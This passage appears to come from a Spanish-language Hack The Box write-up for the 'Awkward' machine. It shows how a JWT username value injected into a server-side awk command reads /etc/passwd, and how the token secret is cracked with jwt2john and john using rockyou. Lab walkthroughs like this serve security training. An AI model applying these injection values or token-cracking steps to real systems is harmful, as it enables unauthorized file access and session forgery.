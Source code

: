 Podemos ver que hace una petición a /all-leave ejecuta el comando `awk` con parámetros

![](/assets/img/HTB/Awkward/badinuser.png)

Nos podemos aprovechar de la variable user, para incluir archivos locales de la siguiente manera

La API ejecuta este comando

```shell
awk '/" + user + "/' /var/www/private/leave_requests.csv    

Si cambiamos la cookie el usuario por `/etc/passwd` se ejecutaría el siguiente comando

```shell
awk '//' /etc/passwd ` /' /var/www/private/leave_requests.csv
```

Para esto necesitamos el secreto de la cookie, podemos usar [jwt2john.py](https://github.com/Sjord/jwtcrack)

```shell
❯ ./jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc2ODI0OTYxfQ.jL39oYkjlbF1Cy4LWBCzgMkh_ZByJuVFicNfflHMEao > hash

❯ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
123beany123      (?)     
Session completed. 
```

En [jwt.io](https://jwt.io) podemos modificar la cookie cambiando el username por `/etc/passwd`
